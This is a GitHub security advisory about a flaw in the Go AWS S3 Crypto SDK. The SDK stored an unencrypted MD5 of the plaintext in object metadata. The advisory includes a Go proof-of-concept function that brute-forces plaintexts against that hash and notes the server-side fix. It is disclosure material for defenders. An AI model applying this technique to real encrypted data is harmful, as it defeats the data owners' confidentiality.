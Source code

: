 ```yaml
---
title: ' AWS: Unencrypted md5 plaintext hash in metadata in the AWS S3 Crypto SDK
  for golang'
severity: Moderate
ghsa_id: GHSA-76wf-9vgp-pj7w
cve_id: ''
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: <=2020.08.05
  patched_versions: 2020.08.05
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK was impacted by an issue that can result in loss of confidentiality. An attacker with read access to an encrypted S3 bucket was able to recover the plaintext without accessing the encryption key.

### Risk/Severity

The vulnerability poses insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

The issue has been fully mitigated by AWS as of Aug. 5th by disallowing the header in question.

The S3 crypto library tries to store an unencrypted hash of the plaintext alongside the ciphertext as a metadata field. This hash can be used to brute force the plaintext in an offline attack, if the hash is readable to the attacker. In order to be impacted by this issue, the attacker has to be able to guess the plaintext as a whole. The attack is theoretically valid if the plaintext entropy is below the key size, i.e. if it is easier to brute force the plaintext instead of the key itself, but practically feasible only for short plaintexts or plaintexts otherwise accessible to the attacker in order to create a rainbow table.

The issue has been fixed server-side by AWS as of Aug 5th, by blocking the related metadata field. No S3 objects are affected anymore.

### Mitigation

The header in question is no longer served by AWS, making this attack fully mitigated as of Aug. 5th.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository, this particular issue can be found at [here](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/hash_exploit.go):

```golang
func HashExploit(bucket string, key string, input *OfflineAttackInput) (string, error) {
	_, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	length, err := strconv.Atoi(header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Length"))
	plaintextMd5 := header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Md5")
	blocks := length / 16
	possiblePlaintextNum := 1
	segNum := len(input.PossiblePlaintextSegments)
	for i := 0; i < blocks; i++ {
		possiblePlaintextNum *= segNum
	}
	for i := 0; i < possiblePlaintextNum; i++ {
		w := i
		guess := ""
		for j := 0; j < blocks; j++ {
			guess += input.PossiblePlaintextSegments[w%segNum]
			w /= segNum
		}
		guessMd5 := md5.Sum([]byte(guess))
		if plaintextMd5 == base64.StdEncoding.EncodeToString(guessMd5[:]) {
			return guess, nil
		}
	}
	return "", fmt.Errorf("No plaintext found!")
}
```

The PoC will only work on old versions of the library, as the hash has been removed from being calculated as well.
